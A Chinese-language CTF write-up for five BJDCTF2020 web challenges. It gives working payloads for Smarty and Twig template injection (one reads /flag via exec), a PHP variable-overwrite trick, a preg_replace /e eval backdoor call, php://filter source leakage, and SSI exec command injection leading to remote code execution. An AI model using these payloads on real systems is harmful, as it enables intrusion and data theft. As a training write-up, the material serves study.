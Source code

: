# BJDCTF2020 Write Up

## 0x01 [BJDCTF2020]The mystery of ip

提示IP,发现是``X-Forwarded-For``搞的

fuzz一下发现有模板注入漏洞

这里的渲染引擎是基于PHP的smarty

Poc:``{{system("<cmd>")}}``

## 0x02 [BJDCTF2020]Cookie is so stable

和上题一样是模板注入，不过注入点在Cookie里

渲染引擎也换成了Twig

从网上找到的 Twig poc

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```

## 0x03 [BJDCTF2020]Mark loves cat

进去看了一下没事注入点似乎

扫下目录发现
```
Target: http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/

[19:51:17] Starting:
[19:51:20] 200 -   73B  - /.git/description
[19:51:20] 200 -   23B  - /.git/HEAD
[19:51:20] 301 -  169B  - /.git  ->  http://ae5480b9-ea51-4d2a-8741-c8968aa682f8.node3.buuoj.cn/.git/
[19:51:20] 200 -  137B  - /.git/config
[19:51:21] 200 -    6KB - /.git/index
[19:51:22] 403 -  555B  - /.git/
[19:51:23] 200 -   28KB - /index.php
[19:51:30] 200 -    0B  - /flag.php

Task Completed
```

考虑用Githack 来获取源码

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

如果要拿到flag 我们要保证GET和POST上设定了flag变量

但是根据

```php
foreach($_POST as $x => $y){
    $$x = $y;
}
```
这样后面的``$flag``就会被我们覆盖，拿不到值

但是``exit()``和``die()``一样，所以我们只要把

```php
$yds = "dog";
$is = "cat";
$handsome = 'yds';
```
这几个变量改成``$flag``就可以了

PHP中``$$a``可以理解为``${$a}``

```php
foreach($_GET as $x => $y){// yds => flag
    $$x = $$y; // $yds = $flag
}
```
## 0x04 [BJDCTF2020]ZJCTF不过如此

第一层用``php://input``传值，用``php://filter/convert.base64-encode/resource=next.php``看源码

拿到

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
很显然这里利用``pregmatch \e``调用``getFlag``后门

为了匹配 我们这里设置``$re=\S*``匹配所有非空字符

payload:``/next.php?\S*=${getFlag()}&cmd=<cmd>``


## 0x05 [BJDCTF2020]EasySearch

进去是一个登陆界面，试了一下万能密码都不行，也没有报错信息

扫一下是否有源码泄露，拿到了index.php.swp

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```
可以看到只要满足

``$admin == '6d0bc1' == substr(md5($_POST['password']),0,6)``

随便跑个脚本找下

```python
#coding=utf-8
import hashlib
for i in range(10000000):
    payload=str(i).rjust(7,"0")
    md5 = hashlib.md5(payload.encode('utf-8')).hexdigest()
    if ((md5[0:6])=='6d0bc1'):
        print payload  #2020666
        break
```

然后根据源码应该就是利用可控的``$_POST['username']``向生成的``.shtml``文件里注入恶意代码了

SSI Poc
```
<!--#exec cmd="<cmd>"-->
```

返回的报文会提供生成的shtml文件目录

至此我们便可以RCE了

### 参考资料

一篇文章带你理解漏洞之SSTI漏洞:

[https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E)